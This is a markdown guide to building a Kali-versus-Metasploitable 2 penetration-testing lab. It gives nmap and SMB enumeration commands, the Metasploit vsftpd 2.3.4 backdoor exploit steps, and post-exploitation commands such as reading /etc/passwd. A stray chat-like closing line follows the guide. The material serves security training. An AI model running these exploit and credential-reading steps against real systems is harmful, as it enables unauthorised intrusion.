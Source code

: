 # 🛡️ A Detailed guide to setting up a safe and practical Real world penetration testing lab.


````markdown
# 🛡️ Real-World Penetration Testing Lab

<p align="center">
  <img src="https://img.shields.io/badge/Lab-Environment-blue?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Tools-Kali%20Linux-green?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Target-Metasploitable-red?style=for-the-badge" />
</p>

---

## 🔹 Lab Overview

This lab is designed for **ethical hackers, penetration testers, and cybersecurity enthusiasts** to practice real-world penetration testing in a **safe and isolated network**.  

**Lab Components:**

| Machine | OS | IP Address | Role |
|---------|----|------------|------|
| Attacker | Kali Linux | 192.168.142.128 | Pentester machine |
| Target | Metasploitable 2 | 192.168.142.130 | Vulnerable machine for testing |

**Objective:**  
- Perform reconnaissance, scanning, enumeration, exploitation, and post-exploitation in a controlled environment.  

---

## 🔹 Lab Setup

### 1. Environment Requirements
- Virtualization software: **VirtualBox** or **VMware**
- Kali Linux ISO or VM image
- Metasploitable 2 VM
- Internal network setup for isolation
- Snapshots before starting tests

### 2. Network Configuration
1. Set both VMs to **Host-Only Adapter** or **Internal Network**.
2. Verify connectivity:
```bash
ping 192.168.142.130
````

---

## 🔹 Step-by-Step Penetration Testing

### Step 1: Reconnaissance

#### Passive Recon

* Gather information without directly interacting with the target.

```bash
whois 192.168.142.130
nslookup 192.168.142.130
```

#### Active Recon

* Use **nmap** for port scanning:

```bash
nmap -sS -Pn 192.168.142.130
```

* Scan all ports and services:

```bash
nmap -p- -A -T4 192.168.142.130
```

---

### Step 2: Enumeration

* Identify running services and versions:

```bash
nmap -sV -p 21,22,23,80,139,445,3306 192.168.142.130
```

* FTP banner grabbing:

```bash
nc 192.168.142.130 21
```

* SMB enumeration:

```bash
smbclient -L \\192.168.142.130 -U guest
```

---

### Step 3: Vulnerability Analysis

* Identify known vulnerabilities:

```bash
searchsploit vsftpd 2.3.4
```

* Check open ports for exploits using **Metasploit**:

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.142.130
run
```

---

### Step 4: Exploitation

* Exploit vulnerable services (FTP, SMB, Telnet):

```bash
exploit
```

* Gain shell access and check privileges:

```bash
whoami
id
```

---

### Step 5: Post-Exploitation

* Enumerate system information:

```bash
uname -a
cat /etc/passwd
ifconfig
```

* Check for privilege escalation opportunities:

```bash
sudo -l
```

---

### Step 6: Reporting

* Document findings:

  * Vulnerable services
  * Exploits used
  * Proof of concept screenshots
  * Suggested mitigation

**Template:**

| Vulnerability | Exploit Used  | Impact              | Mitigation                                   |
| ------------- | ------------- | ------------------- | -------------------------------------------- |
| FTP Backdoor  | vsftpd\_2.3.4 | Remote Shell Access | Upgrade FTP server / Disable anonymous login |

---

## 🔹 Recommended Tools

* Nmap / Zenmap
* Netcat
* Metasploit Framework
* Nikto / Dirb
* Wireshark
* Enum4linux / smbclient

---

## 🔹 References

* [Metasploitable 2 VM](https://sourceforge.net/projects/metasploitable/)
* [Kali Linux Tools](https://www.kali.org/tools/)
* [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)

---

> ⚠️ **Disclaimer:**
> This lab is for educational purposes only. Do **NOT** perform penetration testing on networks or systems without explicit permission. Unauthorized testing is illegal and unethical.

```

Do you want me to do that?
```
